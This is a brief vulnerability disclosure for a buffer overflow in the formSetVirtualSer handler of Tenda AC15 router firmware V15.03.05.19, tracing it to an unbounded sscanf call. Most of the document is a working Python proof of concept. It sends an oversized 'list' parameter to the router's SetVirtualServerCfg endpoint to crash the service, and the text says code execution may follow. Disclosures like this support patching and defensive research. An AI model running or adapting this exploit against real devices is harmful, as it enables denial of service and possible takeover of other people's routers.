




## Tenda AC15V15.03.05.19 firmware has a buffer overflow vulnerability in the formSetVirtualSer

There is a serious buffer overflow vulnerability in the `sub_766B8` function of the Tenda router AC15V15.03.05.19 firmware in the function `formSetVirtualSer`. An attacker can use `sscanf(format, "%[^,]%*c%[^,]%*c%[^,]%*c%s", v12, v11, v10, v9)` to cause a denial of service attack or even cause the service to crash and execute malicious code.






### POC

```py
import requests

def generate_overflow_data():
    # Target buffer size is 0x400 bytes
    padding = b"X" * 0x400
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {'list': data}
   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/SetVirtualServerCfg"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```



